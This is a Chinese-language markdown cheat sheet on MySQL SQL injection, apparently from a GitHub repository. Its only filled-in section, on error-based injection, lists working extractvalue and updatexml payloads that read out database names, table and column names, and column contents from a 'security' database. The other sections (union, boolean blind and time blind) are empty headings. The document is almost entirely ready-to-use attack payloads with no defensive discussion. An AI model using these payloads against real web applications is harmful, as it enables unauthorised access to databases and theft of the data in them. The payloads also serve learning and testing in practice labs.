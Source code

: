 ## SQL注入之MySQL

### 一、联合注入


### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注


### 四、时间盲注


